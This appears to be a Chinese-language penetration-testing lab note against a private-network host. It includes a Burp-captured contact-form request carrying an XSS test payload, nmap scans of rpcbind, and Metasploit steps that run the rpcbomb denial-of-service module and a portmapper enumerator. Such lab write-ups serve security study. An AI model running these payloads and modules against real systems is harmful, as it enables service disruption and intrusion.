 http://192.168.70.45/README.md 

https://github.com/BlackrockDigital/startbootstrap-clean-blog

```bash
git clone https://github.com/StartBootstrap/startbootstrap-clean-blog.git
```

#### burpsuite抓包

http://192.168.70.45/contact.html

http://192.168.70.45/mail/contact_me.php

```bash
POST /mail/contact_me.php HTTP/1.1
Host: 192.168.70.45
Content-Length: 91
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.70.45
Referer: http://192.168.70.45/contact.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

name=1&phone=13600000001&email=123%40qq.com&message=%3Cscript%3Ealert('XSS')%3C%2Fscript%3E
```

## rpcbind

https://www.cnblogs.com/lnterpreter/p/15504651.html

https://blog.csdn.net/zwm_20211031_475/article/details/127578632

rpcbind是NFS中 用来进行消息通知的服务。

一般情况 下rpcbind运行在111端口。并且NFS配置开 启`rpcbind_ enable="YES"`

RPC 最主要的功能就是在指定每个 NFS 功能所对应的端口序号（port number ），并且回报给客户端，让客户端可以连结到正确的物理端口（port）上去。

### nmap

```bash
nmap -sV -p 111 192.168.70.45			   #探测rpcbind版本信息
nmap -p 111 --script=rpcbind 192.168.70.45	#探测目标的rpcinfo信息
```

### msf

```bash
#搜索相关漏洞
searchsploit rpcbind

msfconsole
search rpcbind
use auxiliary/dos/rpc/rpcbomb
show options
set RHOSTS  192.168.70.45
run

#SunRPC Portmap程序枚举器
//此模块调用目标端口映射服务并枚举所有程序条目及其运行端口号。
use auxiliary/scanner/misc/sunrpc_portmapper
show options
set RHOSTS  192.168.70.45
```